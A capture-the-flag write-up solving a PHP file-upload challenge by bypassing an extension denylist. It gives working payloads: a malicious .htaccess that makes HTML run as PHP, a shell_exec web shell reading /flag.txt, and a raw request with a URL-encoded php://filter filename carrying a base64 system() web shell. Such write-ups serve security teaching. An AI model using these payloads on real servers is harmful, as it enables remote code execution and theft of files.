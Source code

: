 # Byepass

> Help yourself Say Goodbye to days gone by with our easy online service! Upload your photos to capture the memory, cherish them with friends and family, and savor the time we have together!
> 
> Retrieve the flag out of the root of the filesystem /flag.txt.

We're given the source code and `Dockerfile` for the target. I thought it easiest to run this in a GCP CloudShell. 

Upload the source code, inspect:
```
paul@cloudshell:~/byepass ($PROJECT)$ find .
.
./php.ini
./www
./www/save_memories.php
./www/css
./www/css/styles.css
./www/assets
./www/assets/img
./www/assets/img/01.jpg
./www/assets/img/02.jpg
./www/assets/img/03.jpg
./www/index.php
./Dockerfile
```

Our `Dockerfile`:
```FROM php:7.2.12-apache

COPY www/ /var/www/html/
RUN mkdir -p /var/www/html/uploads

COPY php.ini /usr/local/etc/php/

#COPY flag.txt /
#RUN chmod a+r /flag.txt

RUN chown -R www-data:www-data /var/www/html/
EXPOSE 80
```

Simple enough. Lets build it and run it:

```
paul@cloudshell:~/byepass ($PROJECT)$ docker build .
Sending build context to Docker daemon  1.637MB
Step 1/6 : FROM php:7.2.12-apache
7.2.12-apache: Pulling from library/php
a5a6f2f73cd8: Pull complete
633e0d1cd2a3: Pull complete
<SNIP>
Successfully built 529705f83df0
paul@cloudshell:~/byepass ($PROJECT)$ docker run -it --rm -p 8080:80 529705f83df0
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.18.0.2. Set the 'ServerName' directive globally to suppress this message
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.18.0.2. Set the 'ServerName' directive globally to suppress this message
[Sat Dec 17 22:35:14.800857 2022] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.25 (Debian) PHP/7.2.12 configured -- resuming normal operations
[Sat Dec 17 22:35:14.800969 2022] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'

  ```
  
Inspecting the PHP code for the uploader function:
```
<?php
error_reporting(E_ALL);
ini_set('display_errors',1);

$target_dir = "/var/www/html/uploads/";
$uploadOk = 1;

$ext_denylist = array(
    "php",
    "php2",
    "php3",
    "php4",
    "php5",
    "php6",
    "php7",
    "phps",
    "phps",
    "pht",
    "phtm",
    "phtml",
    "pgif",
    "shtml",
    "phar",
    "inc",
    "hphp",
    "ctp",
);

if(isset($_POST["submit"])) {
    $target_file = basename($_FILES["fileToUpload"]["name"]);
    $filename = $_FILES["fileToUpload"]["name"];
    $uploadOk = 1;
    if ($filename== ""){
        echo("<br><br><br><br><h1>ERROR:</h1> No file was supplied.");
        $uploadOk = 0;
    }

    $ext = strtolower(pathinfo($filename, PATHINFO_EXTENSION));
    if ( in_array($ext, $ext_denylist)) {
        echo('<br><br><br><br><h1>ERROR:</h1> Not a valid image to upload');
        $uploadOk = 0;
    }

    if ($_FILES["fileToUpload"]["size"] > 500000) {
      echo("<br><br><br><br><h1>ERROR:</h1> This file is too large for us to store!");
      $uploadOk = 0;
    }

    if ($uploadOk){

        $moved = move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file);
        if ($moved){
            echo("<br><br><br><br><h1>SUCCESS:</h1> Your memory has been saved, you can view your photographs here: <a href='$filename'>/uploads/$filename</a>.");
        } else {
            echo("<br><br><br><br><h1>ERROR:</h1> Sorry, there was an error uploading your file '$filename'.<br><br>");
            echo($_FILES['fileToUpload']['error']);
            var_dump($_FILES);
        }
    }
}

?>
```

Try to upload a HTML file with a basic phpinfo() function. 

Pretty sure this won't work, but lets confirm that, and see if the file is uploaded:
`Your memory has been saved, you can view your photographs here: /uploads/badguy.html.`

Grabbing it:

```
paul@cloudshell:~ ($PROJECT)$ curl -X GET -H 'HOST: <SNIP>.cloudshell.dev' --cookie "CloudShellAuthorization=Bearer <token>" https://$WEB_HOST/badguy.html
<?php
phpinfo()
?>paul@cloudshell:~ ($PROJECT)$

```
As expected, PHP code was not interpreted, but we can confirm the file was saved in web root:

```
  root@28047d82b635:/var/www/html# cat badguy.html
<?php
phpinfo()
```

As the files are uploaded to webroot, I had an idea of uploading a bad `.htaccess` file. 

See additional resources: https://stackoverflow.com/questions/44512947/how-to-use-php7-code-in-html-file-with-the-help-of-htaccess-setting, https://github.com/wireghoul/htshells

Lets upload our `.htaccess` with below contents, so HTML is interpreted for PHP:
```
<Files ~ "^\.ht">
# Require all granted
    Order allow,deny
    Allow from all
</Files>
Options +ExecCGI
AddType application/x-httpd-php .php .html
AddHandler application/x-httpd-php .php .html
```

Lets upload another bad file so we can get our flag:
```
<?php
$output = shell_exec('ls -lart / && cat /flag.txt');
echo "<pre>$output</pre>";
shell_exec('cp /flag.txt /var/www/html/');

?>
 ```
  
  Now run it:
  ```
  paul@cloudshell:~ ($PROJECT)$ curl -X GET -H 'HOST: <SNIP>.cloudshell.dev' --cookie "CloudShellAuthorization=Bearer <SNIP>" https://$WEB_HOST/badguy3.html
<pre>total 80
drwxr-xr-x   2 root root 4096 Oct 20  2018 home
drwxr-xr-x   2 root root 4096 Oct 20  2018 boot
drwxr-xr-x   1 root root 4096 Nov 12  2018 usr
drwxr-xr-x   2 root root 4096 Nov 12  2018 srv
```

We're golden! No flag is appearing, as just running this in the sandbox. But if run against target in real CTF, it would yield the correct flag.

## Bonus
For a much more sophisticated solve for this, check below:

```POST / HTTP/1.1
Host: challenge.nahamcon.com:32044
Content-Type: multipart/form-data; boundary=---------------------------292197394829431258241452346033
Content-Length: 543
Origin: null
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------292197394829431258241452346033
Content-Disposition: form-data; name="file"; filename="%70%68%70%3a%2f%2f%66%69%6c%74%65%72%2f%63%6f%6e%76%65%72%74%2e%62%61%73%65%36%34%2d%64%65%63%6f%64%65%2f%72%65%73%6f%75%72%63%65%3d%78%79%7a%2e%6a%70%67%2e%70%68%70"
Content-Type: text/xml

PD9waHAgc3lzdGVtKCRfR0VUWyJqa3IiXSk7ICAgPz4K
-----------------------------292197394829431258241452346033
Content-Disposition: form-data; name="submit"

Submit Query
-----------------------------292197394829431258241452346033--
```



> urlencode a php filter that base64-decodes. This will get rid of the <?php exit();
> And have your own payload as base64 (that will get decoded into a system())

Hat tip to https://twitter.com/ateamjkr

Also reference: https://www.youtube.com/watch?v=ifjMdERchF4
